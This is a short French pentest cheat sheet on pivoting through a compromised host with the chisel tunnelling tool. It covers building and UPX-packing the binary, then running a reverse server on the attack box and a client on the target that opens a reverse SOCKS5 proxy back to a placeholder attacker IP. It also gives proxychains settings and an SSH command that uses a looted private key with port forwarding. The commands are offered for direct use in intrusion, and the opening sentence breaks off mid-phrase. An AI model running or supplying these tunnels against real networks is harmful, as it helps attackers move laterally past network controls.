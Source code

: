 ```yaml
---
public: true # set to true to make the article publishable
---
```

C'est le principe d'utiliser une machine compromise pour relayer notre attaque vers 

## Installation et réduction de la taille

```shell
git clone https://github.com/jpillora/chisel.git
cd chisel
# stripping
go build -ldflags="-s -w"  # réduction de 10 Mo à 6 Mo
# sinon "static linking" (rend plus portable mais plus gros)
go build -gccgoflags="-s -w --static"
# compression
upx brute chisel # réduction de 6 à 1.5Mo
```

### Attackbox 

On commence par lancer un serveur sur notre machine (on veut que le client chisel se connecte à nous car en général les connexions sortantes sont autorisées mais pas le contraire. C'est un peu l'équivalent du côté "reverse" d'un reverse shell)

```
chisel server -p 443 --reverse
```

### Cible

On lance chisel en mode client (pour qu'il se connecte à notre serveur).
Une fois lancé, on souhaite qu'il exécute un serveur socks5.
En principe, un serveur socks s'exécute côté serveur, mais dans notre cas, on souhaite que le serveur socks s'exécute sur notre cible (donc côté client). 
On utilisera pour ce faire le `R` qui signifit "reverse" pour inverser le sens du tunnel.
On aura donc un serveur socks qui s'exécutera sur notre client et qui sera accessible depuis notre serveur sur un port qui, par défaut, sera le 1080.

```
# écoutera sur le port par défaut (1080) du serveur (attaquant) 
chisel client <ATTACK_BOX_IP>:443 R:socks

# si on souhaite modifier le port par défaut :
chisel client <ATTACK_BOX_IP>:443 R:socks:1234

```

## Utilisation

On se connectera en utlisant `proxychain`.
On commence par modifier le fichier de configuration `/etc/proxychains4.conf` et ajouter à la fin la section :

```
[ProxyList]
socks5 127.0.0.1 1080
# on peut éventuellement chainer les proxy socks sur lesquels rebondir en ajouter d'autres lignes à la suite
```

Une fois configuré, il ne reste plus qu'à préfixer nos commandes favorites de `proxychain` :

```
# Connexion SSH via le tunnel socks
proxychains ssh user@<IP_HOTE_ACCESSIBLE_DANS_LE_LAN_DE_NOTRE_CIBLE>
```

```
chisel server -p 443 --reverse

ssh webadmin@$TARGET_IP -i loot/id_rsa1 -D 1080  -R 1234:0.0.0.0:443 -v   
```